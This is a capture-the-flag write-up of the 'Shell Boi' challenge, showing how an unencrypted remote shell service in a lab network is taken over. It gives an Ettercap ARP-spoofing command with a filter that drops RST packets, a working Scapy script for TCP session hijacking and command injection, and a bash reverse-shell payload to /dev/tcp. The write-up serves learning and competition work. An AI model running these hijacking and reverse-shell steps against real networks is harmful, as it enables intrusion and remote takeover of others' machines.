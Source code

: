 ```yaml
---
description: >-
  Unencrypted remote shell leads to TCP session hijacking and RCE through
  man-in-the-middle (MITM) attack
---
```


# Shell Boi

## Challenge

He sells linux shells on the shell store.

**Author:** [f4lcon](https://twitter.com/theevilsyn)

## Solution

### Reconnaissance

When scanning the network, I found that only 172.30.0.5 and 172.30.0.8 were up. However, no ports seemed to be open.

Port 1337 on 172.30.0.5 was "open", but the service closes the connection immediately after the handshake is completed.

```
Nmap scan report for 172.30.0.5
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE    VERSION
1337/tcp open  tcpwrapped
MAC Address: 02:42:1D:65:54:70 (Unknown)
```

172.30.0.8, on the other hand, had no open ports.

This is weird, the category was "Network Pentest"! Anyway, I theorized that perhaps 1337 was indeed open, but the firewall blocks anyone other than 172.30.0.8 from accessing the service?

### Man-in-the-Middle

Well, what better way to test this theory than to sniff the traffic? I tried using Ettercap to perform a man-in-the-middle between 172.30.0.5 and 172.30.0.8, and it worked! There were no defences in place, and I could now sniff the traffic between them.

Filtering the traffic on port 1337, we can see quite a lot of connections. Let's start with following one of those connections:

![](<../../.gitbook/assets/image (56).png>)

172.30.0.8 is sending the following base 64 encoded message to 172.30.0.5, on port 1337:

![](<../../.gitbook/assets/image (58).png>)

The two lines translate to 172.30.0.8 and 34599 respectively.

Hm... filtering the traffic on port 34599, some interesting traffic appears:

![](<../../.gitbook/assets/image (59).png>)

Okay, now we understand what is happening.

* 172.30.0.8, the client, sends a request to the server in the form of a base 64 encoded message specifying the receiving IP address and port number.
* 172.30.0.5, the server, upon receiving the request, sends an unencrypted shell to the specified IP address and port number.

### Hijacking the Session

Essentially, we need to intercept the TCP connection, and spoof a response containing our custom command to the server. This is called **TCP session hijacking**, which builds on top of a MITM attack. The idea is that we have to calculate the correct SEQ and ACK numbers, in order to spoof a packet as the client.

In a TCP connection, if invalid SEQ numbers are received, the receiver simply discards the packets. Initial sequence numbers (ISNs) are thus randomised, preventing SEQ numbers from being predicted. Arbitrarily injected packets by an attacker "guessing" the SEQ number would therefore be likely to have invalid SEQ numbers. \*\*\*\*

However, if an attacker is able to achieve a man-in-the-middle attack, it would be trivial to obtain the relevant SEQ numbers of TCP packets transmitted between two nodes.

![](https://lh5.googleusercontent.com/22lSaL0ogOMcs18PYt33A84ORcf7JXfuyD\_ZYwTBAw5y5u\_vyCwNDpZQfxKgP63YvD9-X2\_bZSC\_1EQxnu1AP0IhYPXIsD-d\_YY5go8SPTZDiZGGo4R53qMm6KMmHjZVwn1H68Nr)

The following script implements this (this script is run _after_ first establishing a MITM using Ettercap - we could also use Scapy to implement the MITM, but it gets really messy and Scapy faces its own limitations too).

```python
from scapy.all import *
import argparse
import global_vars


def sniff_parser(packet):
    if IP in packet:
        print(packet.summary())


def sniffer_thread(callback, pkt_filter, iface):
    while True:
        sniff(
            prn=callback,
            filter=pkt_filter,
            count=1,
            iface=iface
        )


def forge_response(p, command):

	print(f"Received: SEQ {p[TCP].seq}, ACK {p[TCP].ack}, Payload {p[TCP].payload}")

	ip_total_len = p[IP].len
	ip_header_len = p[IP].ihl * 32 // 8
	tcp_header_len = p[TCP].dataofs * 32 // 8
	tcp_seg_len = ip_total_len - ip_header_len - tcp_header_len

	# Send command to server
	cmd_ether = Ether(src=p[Ether].dst, dst=p[Ether].src)
	cmd_ip = IP(src=p[IP].dst, dst=p[IP].src)
	cmd_tcp = TCP(sport=p[TCP].dport, dport=p[TCP].sport, seq=p[TCP].ack, ack=p[TCP].seq + tcp_seg_len, flags="PA")

	command = command + '\r\n'
	cmd = cmd_ether / cmd_ip / cmd_tcp / command

	return cmd
	

def hijack(p):

	data = str(p[TCP].payload)
	print("Received:", data)
	
	if 'root' not in data:
		return
		
	cmd = forge_response(p, global_vars.CMD)
		
	print('Spoofed command: ', cmd[TCP].payload)

	print("[+] Executing command...")
	sendp(cmd, verbose=0, iface=global_vars.IFACE)

	# sys.exit(0)


def main():
    
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-i', '--interface', default=conf.iface, help='Interface to use.'
    )

    parser.add_argument(
        'client', help='Client IP address.'
    )
    parser.add_argument(
        'server', help='Server IP address.'
    )

    parser.add_argument(
        'cmd', help='A command to execute.'
    )

    args = parser.parse_args()

    global_vars.MY_MAC = get_if_hwaddr(args.interface)
    global_vars.MY_IP = get_if_addr(args.interface)
    global_vars.IFACE = args.interface
    global_vars.CMD = args.cmd
    
    pkt_filter = f"src host {args.server} and tcp"
    
    sniffer = Thread(target=sniffer_thread, args=(hijack, pkt_filter, global_vars.IFACE))
    sniffer.start()


if __name__ == '__main__':
    main()
```

One small problem, though. When the client (172.30.0.8) sends an RST, the connection is closed before we get a chance to send our spoofed command! To get around this, I used the following Ettercap filter to drop the RST and RST, ACK packets.

```c
if (ip.src == '172.30.0.8') {
	if (tcp.flags == 4 || tcp.flags == 20) {
		drop();
		msg("Filter Ran.\n");
	}
}	
```

The syntax for running Ettercap with the filter is:

`ettercap -T -q -i tap0 -F shellboi.ef -M ARP /172.30.0.5\;172.30.0.8///`

Now, we can run the Python script and specify our desired command. Our command is `bash -c "bash -i >& /dev/tcp/172.30.0.14/1337 0>&1"`, which sends a reverse shell from the server to us.

![](../../.gitbook/assets/upload\_c478bfc59bf91c2651693ff0c0c0745e.png)

The next time that a shell is sent to the client, our script will intercept the traffic and send the reverse shell payload to the server, allowing us to catch a shell, and obtain the flag.

![](<../../.gitbook/assets/image (61).png>)

The flag is `inctf{Ha!Security_1s_4_my7h!!!}`.

_And that, everyone, is why we use SSH instead of Telnet._

### On Hindsight...

There was an easier way to solve this. After performing the ARP spoofing attack using Ettercap, we could have just forged the base 64 encoded request, specifying the IP address and port of our choice to receive the shell (no scripting required?).

But hey, this was more fun, and probably more realistic!
